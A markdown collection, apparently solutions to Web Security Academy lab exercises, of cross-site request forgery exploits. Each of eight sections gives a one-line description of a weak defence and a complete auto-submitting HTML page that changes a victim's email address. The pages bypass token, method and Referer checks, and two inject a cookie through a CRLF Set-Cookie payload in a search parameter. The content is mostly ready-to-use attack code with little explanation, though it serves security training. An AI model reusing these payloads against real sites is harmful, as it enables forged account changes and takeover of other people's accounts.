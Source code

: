 # Cross-site request forgery (CSRF)

## CSRF vulnerability with no defenses
```html
<html>
  <body>
    <form action="https://ac711fd11f4a145080cf065d007d0000.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token validation depends on request method
*Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.*
```html
<html>
  <body>
    <form action="https://ac821f841ea7fc638025526d00e80028.web-security-academy.net/email/change" method="GET">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Validation of CSRF token depends on token being present
*Some applications correctly validate the token when it is present but skip the validation if the token is omitted.*
```html
<html>
  <body>
    <form action="https://ac4a1f6c1e26373580a1293100d10042.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token is not tied to user session
*Some applications do not validate that the token belongs to the same session as the user who is making the request.
Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.*
```html
<html>
  <body>
    <form action="https://ac951fd61fbca61f80cd57e100bf002d.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="nvYjyCnkZg9lxPdk0jUwfsYsM7IGqZP5">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token is tied to non-session cookie
*In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the
same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks,
one for session handling and one for CSRF protection, which are not integrated together.*
```html
<!-- Cookie csrfKey works as session ID here. It's app weakness. -->
<html>
  <body>
    <form action="https://acd41f251facd65c80122553008d00c5.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="nwA4aBrVat0amHXA9Z6nfo8coPU8JhWK"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim.  -->
    <img src="https://acd41f251facd65c80122553008d00c5.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=kE4no0fY9JeJvK9KSGzoZrIYZ7PTubzQ" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF where token is duplicated in cookie
*In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of
tokens that have been issued, but instead duplicate each token within a cookie and a request parameter.
When the subsequent request is validated, the application simply verifies that the token submitted in the
request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defense
against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state.*
```html
<html>
  <body>
    <form action="https://ac251fc31f9c6869805c480f00090062.web-security-academy.net/email/change" method="POST">
      <input required type="hidden" name="csrf" value="myCsrfToken"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim. -->
    <img src="https://ac251fc31f9c6869805c480f00090062.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=myCsrfToken" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF where Referer validation depends on header being present
*Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.*
```html
<html>
  <head>
    <meta name="referrer" content="never">
  </head>
  <body>
    <form action="https://ac341ff21e634bca80a3b4fa00840005.web-security-academy.net/email/change" method="POST">
      <input required type="hidden" name="csrf" value="myCsrfToken"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <img src="1" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF with broken Referer validation
*Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application
simply validates that the Referer contains its own domain name, then the attacker can place the required value
elsewhere in the URL.*
```html
<html>
  <body>
    <form action="https://ac5b1f021ef24bb18010b59d00cf0004.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      history.pushState("", "", "/ac5b1f021ef24bb18010b59d00cf0004.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>
